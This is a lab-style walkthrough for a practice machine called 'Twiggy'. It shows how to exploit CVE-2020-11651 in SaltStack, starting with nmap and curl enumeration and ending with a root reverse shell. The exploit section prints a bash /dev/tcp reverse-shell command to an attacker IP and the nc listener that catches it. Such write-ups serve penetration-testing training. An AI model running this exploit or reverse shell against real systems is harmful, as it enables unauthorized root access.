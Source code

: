 # Exploitation Guide for Twiggy

## Summary

The host is vulnerable to CVE-2020-11651, which obtains pre-auth RCE  on a SaltStack master and/or all the associated minions. This obtains  command execution on the master by creating a runner of `salt.cmd` with function `cmd.exec_code`.

## Enumeration

### Nmap

We start off by running an `nmap` scan:

```
kali@kali:~$ sudo nmap -p- 192.168.120.121  
Nmap scan report for 192.168.120.121
Host is up (0.0011s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
80/tcp   open  http
4505/tcp open  unknown
4506/tcp open  unknown
8000/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 105.30 seconds
```

We see that ports 4505 and 4506 are open. Those ports are default for `ZeroMQ` as we can see from a more detailed scan:

```
kali@kali:~$ sudo nmap -p 4505,4506 192.168.120.121 -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2020-12-21 15:21 EST
Nmap scan report for 192.168.120.121
Host is up (0.030s latency).

PORT     STATE SERVICE VERSION
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
```

### Curl

Next. let’s run `curl` in a verbose mode against port 8000:

```
kali@kali:~$ curl http://192.168.120.121:8000 -v
*   Trying 192.168.120.121:8000...
* Connected to 192.168.120.121 (192.168.120.121) port 8000 (#0)
> GET / HTTP/1.1
> Host: 192.168.120.121:8000
> User-Agent: curl/7.72.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 200 OK
< Server: nginx/1.16.1
< Date: Mon, 21 Dec 2020 20:36:04 GMT
< Content-Type: application/json
< Content-Length: 146
< Connection: keep-alive
< Access-Control-Expose-Headers: GET, POST
< Vary: Accept-Encoding
< Allow: GET, HEAD, POST
< Access-Control-Allow-Credentials: true
< Access-Control-Allow-Origin: *
< X-Upstream: salt-api/3000-1
< 
* Connection #0 to host 192.168.120.121 left intact
{"clients": ["local", "local_async", "local_batch", "local_subset", "runner", "runner_async", "ssh", "wheel", "wheel_async"], "return": "Welcome"}
```

The response contains an interesting header, showing that there is a SaltStack Rest API listening on that port:

```
 X-Upstream: salt-api/3000-1
```

## Exploitation

### CVE-2020-11651

The header shows the version to be `3000-1`. Looking up exploits for this version online, we find that it is vulnerable to [remote code execution](https://github.com/dozernz/cve-2020-11651).

After we download the exploit to our attacking machine, some tweaks are required. `Salt` doesn’t support Python 3.8 and Kali won’t let us install packages under Python 3.7. We can get around that with the following:

```
kali@kali:~$ python3 -m venv env
...
kali@kali:~$ . ./env/bin/activate
(env) kali@kali:~$ pip install distro salt
...
(env) kali@kali:~$ sed -i 's/from platform import _supported_dists//' ./env/lib/python3.8/site-packages/salt/grains/core.py
(env) kali@kali:~$ sed -i 's/_supported_dists +=/_supported_dists =/' ./env/lib/python3.8/site-packages/salt/grains/core.py
```

We can now start a netcat listener on port 4505 and then launch the exploit:

```
(env) kali@kali:~/machines/twiggy$ python3 exploit.py 192.168.120.121 master 'bash -i >& /dev/tcp/192.168.118.2/4505 0>&1'
/home/kali/env/lib/python3.8/site-packages/salt/ext/tornado/httputil.py:107: DeprecationWarning: Using or importing the ABCs from 'collections' instead of from 'collections.abc' is deprecated since Python 3.3, and in 3.9 it will stop working
  class HTTPHeaders(collections.MutableMapping):
Attempting to ping master at 192.168.120.121
Retrieved root key: 8tnPuz4Fk+nH4c2CVW3/1BBbWofubqMZGJ1gkEkiB6WzlnyqQ7muDw3dbtKNwTMjUU6IcNFD9VY=
Got response for attempting master shell: {'jid': '20200518074808085260', 'tag': 'salt/run/20200518074808085260'}. Looks promising!
```

After about a minute, we should catch our reverse shell:

```
kali@kali:~$ nc -lvp 4505
listening on [any] 4505 ...
192.168.120.121: inverse host lookup failed: Unknown host
connect to [192.168.118.2] from (UNKNOWN) [192.168.120.121] 33584
bash: no job control in this shell
[root@localhost root]# id
id
uid=0(root) gid=0(root) groups=0(root)
```